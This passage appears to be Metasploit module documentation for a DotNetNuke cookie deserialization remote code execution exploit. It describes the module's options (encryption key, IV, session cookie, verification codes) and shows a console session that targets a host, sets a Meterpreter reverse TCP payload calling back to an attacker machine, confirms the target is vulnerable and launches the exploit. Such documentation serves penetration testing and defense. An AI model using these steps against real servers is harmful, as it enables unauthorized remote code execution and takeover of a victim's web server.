 ## Options
 
  **DryRun**
  
  Set this to `true` to generate a payload, but not send the exploit to the target server. Default value is `false`.
  
  **ENCRYPTED**
  
  Set this to `true` for targets running v9.1.1+. Default value is `false`.
  
  **IV**
  
  The initialization vector to use for encrypting the payload. If specified along with `KEY`, `VERIFICATION_CODE` and `VERIFICATION_PLAIN` options will be ignored.
  
  **KEY**
  
  The key to use for encryption. If specified along with `IV`, `VERIFICATION_CODE` and `VERIFICATION_PLAIN` options will be ignored.
  
  **SESSION_TOKEN**
  
  The .DOTNETNUKE session cookie value to use when submitting the payload to the server. Required for targets running v9.2.0+.
  
  **SRVPORT**
  
  The server port to listen for HTTP callbacks on when testing encryption passphrases for targets running v9.2.2 - v9.3.0-RC. Default value is `8080`
  
  **TARGETURI**
  
  Path to a page that will result in a DNN 404 Error Page. The default location is `/__`
  
  **VERIFICATION_CODE**
  
  The verification code received in an email, or the full path to a file containing multiple verification codes.
  
  **VERIFICATION_PLAIN**
  
  The known (full or partial) plaintext of the encrypted verification code. Typically in the format of {portalID}-{userID} where portalID is an integer and userID is either an integer (v9.1.1 - v9.2.1) or GUID (v9.2.2+). 
  
  

## Scenarios
### v5.1.0 - v9.1.0
  Here's showing the expected output:
  
  ```
  msf > use exploit/windows/http/dnn_cookie_deserialization_rce 
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set RHOSTS 192.168.31.131
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set RPORT 8083
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set LHOST 192.168.31.128
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set LPORT 443
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > check

  [*] Trying to determine DNN Version...
  [*] Checking version at /Documentation/License.txt ...
  [+] DNN Version Found: v5.1.0 - v9.0.1
  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] 192.168.31.131:8083 - The target appears to be vulnerable.
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > exploit

  [*] Checking for custom error page at: /__ ...
  ```